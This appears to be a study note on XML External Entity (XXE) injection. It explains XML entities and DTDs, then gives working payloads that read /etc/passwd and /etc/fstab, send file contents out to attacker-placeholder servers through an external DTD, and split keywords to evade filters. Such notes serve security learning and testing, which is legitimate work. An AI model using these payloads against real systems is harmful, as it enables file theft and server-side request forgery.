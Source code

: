 Extenral XML Entities
=====================

# Overview

## XML

Extensible Markup Language is a way of structuring data similar to JSON which has overtaken XML in popularity and largely replaced it in general.

### XML Structure && Syntax

```
<?xml version="1.0"?>
<Person>
	<Name>John Smith</Name>
	<Age>20</Age>
</Person>

```

+ Tags are case sensitve
+ "",'',<,> are illigal characters in XML due to the parser not knowing how to handel them

## Entities && The DTD

Entites operate like variables within the XML document where, once defined, they can be used anywhere throughout the document. XML entities live within a specific part of the XML document known as the DTD.


### Document Type Definition (DTD)

```
<?xml version="1.0"?>
<!DOCTYPE Person [
	<!ENTITY name "John">
]>
<Person>
	<Name>&name;</Name>
	<Age>20</Age>
</Person>
```

#### General Entities

```
<!ENTITY generalEntity "arbitary">

<Usage>&generalEntity;</Usage>
```

#### Parameter Entities

```
<!ENTITY % outer "<!ENTITY inner 'parameter'>">

```

+ Only allowed inside the DTD
+ More flexiable and can allow the creation of an entity which contains another entity

#### Predefined

```
<specialChars>&#x3C;</specialChars>
```

+ Collections of special characters that might break the document normally

# XXE Types

## Inband

+ XML document is parsed 
+ The XML parser reads the document
+ The output of the parser is rendered/output in a response

## Error Based

+ No output
+ A kind of blind XXE injection

## Out of Band (OOB)

+ Entirely blind
+ No output
+ This requires an attack/observation server 
+ The server receives requests made from an entity in the injected payload
+ If the request comes back then the origin site is vulnerable to OOB XXE
+ This also leads to SSRF (Server Side Request Forgery)


# Atacks && Payloads

## Read System Files

```
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "/etc/passwd">
]>
<out>&payloadEntity;</out>
```
+ Here the SYSTEM keyword reteives arbitary resources from a URI `/etc/passwd` to insert into the XML document
+ In this way we can achive arbitary read 

### Include Entities Remotely

```
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "https://callback.free.beeceptor.com/test">
]>
<out>&payloadEntity;</out>
```

## External DTD Payloads

+ Because DTDs can be passed as a URI in a `SYSTEM` call they can be loaded externally by the XML parser

```
<?xml version="1.0"?>
<!DOCTYPE DTD [
	<!ENTITY % parameter_entity "<!ENTITY secondary_entity 'PwnFunction'>">
	%parameter_entity%
]>

<payload>&secondary_entity;</payload>
```

## Blind XXE Paylods Using External DTDs

### Extenral DTD (external_payload.dtd)

```
<!ENTITY % grabPasswd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.server.com/?%grabPasswd;'>">
	%wrapper;
```

+ This will cause the parser to read the contents of `passwd` and store it in the grabPasswd parameter entity
+ This allows the usage of the parameter `grabPasswd` within the DTD
+ Another parameter entity `wrapper` is then created which points to the general entity `send` 
+ When the document is parsed the wrapper entity will spawn the `send` entity as a general entity legally via the external DTD
+ This will then send the contents of `grabPasswd` to the attack server 

### XXE Payload
```
<?xml version="1.0"?>
<!DOCTYPE payload SYSTEM "http://attack.server.com/external_payload.dtd">
<payload>&send;</payload>
```

## Filter Evasion

### External DTD 
```
<!ENTITY % p1 "fi">
<!ENTITY % p2 "le:///etc/pa">
<!ENTITY % p3 "sswd">
<!ENTITY % combined "<!ENTITY pwnFunc SYSTEM '%p1;%p2;%p3;'>">
```
### Main XML

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE xxe [
    <!ELEMENT xxe ANY>
    <!ENTITY % a SYSTEM "http://termbin.com/mo28">
    %a;
    %all;
]>
<return>&pwnFunc;</return>
```
+ This will attempt to bypass filters for keywords such as `file` and `passwd`
+ Extra layers can be added until the filter stops detecting trigger words

## Exfiltration && Pitfalls

+ Since some system files that an attacker may attempt to exfiltrate contain xml syntatic characters like `<,>` a work around must be implemented in order to read these files


### CDATA

+ The character data syntax, `<![CDATA[ <text> ]]` is a way of telling the XML parser to ignore syntactic characters that may arise within this tag
+ Consider its usage in a external DTD payload bellow

```
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
```

+ This leads to the creation of a wrapper with the three parameters desired